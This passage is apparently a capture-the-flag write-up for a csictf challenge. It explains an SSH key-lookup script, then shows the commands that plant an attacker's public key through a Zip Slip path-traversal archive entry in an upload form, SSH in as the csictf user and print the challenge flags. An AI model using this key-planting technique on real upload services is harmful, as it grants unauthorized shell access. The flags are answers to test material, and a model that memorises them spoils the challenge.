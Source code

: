 Let's beautify the content,
```bash
#!/bin/bash

if [ \"$1\" == \"csictf\" ]; then
        cat /home/administrator/uploads/keys/*
else
        echo \"\"
fi
```
So as per the code, when we try to ssh to the IP, the user we try to ssh into is passed as $1(argument 1) to the sh file. If the user we try to ssh into is csictf (i.e if $1==csictf), then it will check if our public key exists in the list of keys present in /home/administrator/uploads/keys/. All these inferences were drawn by looking into the functioning of ssh.

So our aim is simple, we need to put our public key into the /home/administrator/uploads/key folder. So we go back to the uploading zip file location. The upload function has the [Zip Slip Vulnerability](https://github.com/snyk/zip-slip-vulnerability)
```
$ ssh-keygen -t rsa     #filename:my_key
$ 7z a zip-slip.zip my_key.pub
$ 7z rn zip-slip.zip my_key.pub '../../../../../../../../../../home/administrator/uploads/keys/dunsp4rce.pub'
```
So we first generate out private and public keys using the command `ssh-keygen -t rsa` and name our key file `my_key`. 

Next we download the zip-slip.zip from the zip-slip repo mentioned above into the directory which has our keys. Now we append our public key to the zip file using ` 7z a zip-slip.zip my_key.pub`. 

We then rename the file to the folder we want to put our file to(vulnerability) `7z rn zip-slip.zip my_key.pub '../../../../../../../../../../home/administrator/uploads/keys/dunsp4rce.pub`. Since all the key are getting searched in /home/administrator/uploads/keys folder, we put our public key there. 

![alt text]({{site.baseurl}}/assets/HTB-0x[2-6]/2.png)

You should get {"success":"true"} after uploading the zip to the server. The pub key seems to stay in the server for 5 mins before it gets deleted(cron job), so ssh into server before 5 mins of uploading public key.

Now that the hard part of adding our public key is done, we just have to ssh into csictf user `ssh -i my_key csictf@34.93.37.238` and voila `"We are in boissss!"`,

![alt text]({{site.baseurl}}/assets/HTB-0x[2-6]/3.png)

It's almost cakewalk after this. We find a flag.txt in the home folder of csictf user, `csictf{w3lc0m3_t0_th3_s3rv3r}` 

![alt text]({{site.baseurl}}/assets/HTB-0x[2-6]/4.png)

After greping for "csictf" from ~/ , I found the flag `csictf{exp0s3d_sec23ts}` in /home/administrator/website/models/db.js.

![alt text]({{site.baseurl}}/assets/HTB-0x[2-6]/5.png)

